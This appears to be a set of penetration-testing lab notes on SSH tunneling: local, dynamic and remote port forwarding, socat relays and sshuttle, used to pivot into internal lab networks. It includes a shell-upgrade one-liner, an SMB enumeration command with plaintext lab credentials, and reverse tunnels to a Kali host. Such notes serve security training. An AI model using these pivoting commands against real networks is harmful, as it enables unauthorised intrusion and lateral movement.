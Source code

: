  SSH - Tunneling Protocol
### Local Port Forwarding

A local port forward can be set up using OpenSSH's **-L** option, which takes two sockets (in the format IPADDRESS:PORT) separated with a colon as an argument (e.g. IPADDRESS:PORT:IPADDRESS:PORT). The first socket is the listening socket that will be bound to the SSH client machine. The second socket is where we want to forward the packets to. The rest of the SSH command is as usual - pointed at the SSH server and user we wish to connect as.

python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -L 0.0.0.0:4455:172.16.188.217:445 database_admin@10.4.188.215

smbclient -p 4455 -L //192.168.188.63/ -U hr_admin --password=Welcome1234

### Dynamic Port Forwarding

ssh -N -D 0.0.0.0:9999 database_admin@10.4.242.215

use with proxychains

### Remote Port Forwarding


ssh -N -R 127.0.0.1:4443:10.4.203.215:22 kali@192.168.45.203

### Remote Dynamic Port Forwarding

ssh -N -R 9998 kali@192.168.45.181

### sshuttle

socat TCP-LISTEN:2222,fork TCP:10.4.242.215:22
sshuttle -r database_admin@192.168.242.63:2222 10.4.242.0/24 172.16.242.0/24